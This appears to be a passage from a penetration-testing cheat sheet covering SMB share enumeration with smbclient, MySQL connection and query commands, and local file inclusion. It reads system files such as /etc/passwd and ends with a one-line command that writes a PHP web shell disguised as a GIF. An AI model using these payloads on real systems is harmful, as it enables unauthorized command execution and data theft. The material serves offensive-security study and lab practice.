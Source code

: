 ## Port 445 (SMB)

### Smbclient

```
smbclient -N -L //IP ADRESS
```

```
smbclient \\\\IP ADRESS\\SHARE
```



## Port 3306 (MYSQL)

### Connecting Remotely

```
mysql -h <<IP>> -u <<USERNAME>> -p
```

### Connecting Locally

```
mysql -u <<USERNAME>> -p
```

### MYSQL Commands

```
show databases;
use <<DATABASE>>;
show tables;
select * from <<TABLE>>;
```

# Exploitation

## File Inclusion

### Local File Inclusion (LFI)


Two common readable files that are available on most back-end servers are `/etc/passwd` on Linux and `C:\Windows\boot.ini` on Windows.

#### LFI and File Uploads

##### Image upload

Crafting Malicious Image:
```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```
